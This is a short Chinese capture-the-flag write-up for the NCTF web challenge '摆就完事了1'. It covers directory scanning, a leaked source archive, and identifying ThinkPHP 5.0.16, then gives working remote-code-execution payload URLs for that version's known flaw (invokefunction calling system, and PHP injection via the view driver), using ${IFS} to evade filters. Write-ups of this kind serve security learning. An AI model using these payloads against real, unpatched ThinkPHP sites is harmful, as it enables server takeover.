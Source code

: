 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![image](https://github.com/awake1t/HackReport/blob/main/images/WeChat.jpg)
![web-1.1](\\img\web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](\img\web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](\img\web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](\img\web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,

尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](\img\web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](\img\web-1.6.png)

![web-1.7](\img\web-1.7.png)
